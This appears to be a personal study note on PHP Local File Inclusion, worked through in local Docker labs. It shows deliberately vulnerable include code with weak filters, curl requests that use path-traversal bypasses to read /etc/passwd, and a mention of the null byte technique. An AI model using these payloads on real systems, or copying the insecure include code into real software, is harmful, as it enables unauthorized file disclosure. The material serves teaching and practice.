 ```php
	if (preg_match("/\/etc\/passwd/", $filename) === 1) {
		echo "\n[!] Unable to view file content\n";
	} else {
		include("/var/www/html/" . $filename);
	}
?>
```
But, the attacker could use these syntaxes:
```shell
sudo curl -s -X GET "http://localhost/index.php/?filename=....//...//....//....//....//....//....//....///etc/////////passwd"
sudo curl -s -X GET "http://localhost/index.php/?filename=....//...//....//....//....//....//....//....///etc/./././//./././//passwd"
```
___
Another way to improve the security is by adding forcing file extension.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);

	include("/var/www/html/" . $filename . ".php");
?>
```
The attacker leveraging lower PHP versions like 5.2, he cans use **Null Byte Technique**.
```shell
docker pull tommylau/php-5.2
docker run -dit --name lfiTesting <image_ID>
docker exec -it lfiTesting bash
```
![[Pasted image 20230712161030.png]]
![[Pasted image 20230712161243.png]]
___
Another  vulnerability of PHP 5.2 version is concatenating **/.**.
The developer could force file extension by validating the last characters.
![[Pasted image 20230712162803.png]]
___
# Attacking
Let's improve the difficulty of this vulnerability.
First, we use a docker machine to achieve this.
```shell
git clone https://github.com/NetsecExplained/docker-labs
cd docker-labs/file-inclusion/college_website
docker-compose up -d
```
___
## Docker Lab
We have a *college_website* at http://localhost:8081.
 ![[Pasted image 20230712164459.png]]
___
You can see the website.
![[Pasted image 20230712164633.png]]
___
Now, to practice *wrappers* you sould modify *index.php* file from docker process by changing this line.
```php
include $page.'.php';
```
